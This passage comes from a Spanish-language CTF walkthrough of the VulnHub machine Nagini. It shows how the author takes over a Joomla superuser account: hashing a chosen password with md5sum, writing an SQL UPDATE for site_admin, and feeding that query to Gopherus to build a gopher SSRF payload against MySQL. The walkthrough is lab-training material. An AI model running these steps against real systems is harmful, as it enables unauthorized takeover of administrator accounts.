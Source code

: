 La subimos y observamos la respuesta:

<p align="center">
<img src="/assets/images/vulnhub-writeup-nagini/Captura16.png">
</p>

Tenemos todos los privilegios activados para la **BD de Joomla**, por lo que podemos cambiar lo que queramos.

Cambiemos la contraseña del superusuario **site_admin**.

La contraseña debe ir cifrada con **MD5** para que funcione, y lo podemos hacer con la herramienta **md5sum** más la contraseña en texto claro:
```bash
echo -n "hackeado123" | md5sum
779d861feba9f80b974837b135f183fa  -
```

Y ahora sí, con la siguiente query actualizamos la contraseña del superusuario **site_admin**: `use joomla; update joomla_users set password='779d861feba9f80b974837b135f183fa' where username='site_admin';`. Aplícala:

```bash
gopherus --exploit mysql
                                                                                                                                                                                                                 
  ________              .__                                                                                                                                                                                      
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                                       
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                                       
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                                        
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                                       
        \/       |__|        \/     \/                 \/                                                                                                                                                        
                                                                                                                                                                                                                 
                author: $_SpyD3r_$                                                                                                                                                                               
                                                                                                                                                                                                                 
For making it work username should not be password protected!!!

Give MySQL username: goblin                                                                                                                                                                                      
Give query to execute: use joomla; update joomla_users set password='779d861feba9f80b974837b135f183fa' where username='site_admin';

Your gopher link is ready to do SSRF :                                                                                                                                                                           
```